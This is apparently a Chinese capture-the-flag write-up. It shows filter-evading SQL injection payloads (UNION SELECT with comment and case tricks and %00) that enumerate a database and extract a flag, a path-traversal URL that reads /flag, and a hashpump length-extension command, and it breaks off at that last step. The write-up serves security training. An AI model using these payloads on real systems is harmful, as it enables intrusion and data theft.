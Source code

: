 1. 输入1' 报错， 确认有注入漏洞

2. 1' order by 2# ， 构造 `1%27/**/order/**/by/**/10;%00`

   得知：有十列
   
3. 1' union select database(),user()#  构造 `'/**/UnIon/**/sElEct/**/database(),user(),version(),@@version_compile_os,user(),user(),user(),user(),user(),user();%00`

   1. databae() : lastsward
   2. user():  root@localhost
   3. version():  10.2.26-MariaDB-log
   4. @@version_compile_os: Linux
   
4. ```mysql
   'uNion/**/seLect/**/table_names,table_schema/**/from/**/information_schema.tables/**/where/**/table_schema/**/=/**/'lastsward';%00 #select  十个
   group_concat(table_name)

   'uNion/**/seLect/**/group_concat(table_name)/**/from/**/information_schema.tables/**/where/**/table_schema/**/=/**/'lastsward';%00
   ```
   
   得知  table_name : flag 、grade、users
   
5. ```mysql
   'uNion/**/seLect/**/group_concat(column_name)/**/from/**/information_schema.columns/**/where/**/table_name/**/=/**/'flag';%00
   ```

   得知 列名：flag、flag

6. ```
   'uNion/**/seLect/**/1,2,3,4,5,6,7,8,9,(sElect/**/flag/**/from/**/flag);%00
   ```

   拿到Flag： JUST{sq1_ls_1nt3r3stlng}
   
### Ez_upload

打开题目，发现又一个upload.php ，猜测上传漏洞，白名单 + 文件重命名。试过N长时间，发现行不通

看到题目给出file=upload.php，联想到ez_ssrf 解题， 直接`index.php?file=../../../../../flag`   

得到flag

### Crack_in

一直解不出来，一直在碰撞time()。。。。。

下午给出提示，hash类攻击

百度搜索相关资料，利用hashpump ， 根据

```shell
hashpump -s ae8b63d93b14eadd1adb347c9e26595a -d admin -k 25 -a pcat
```
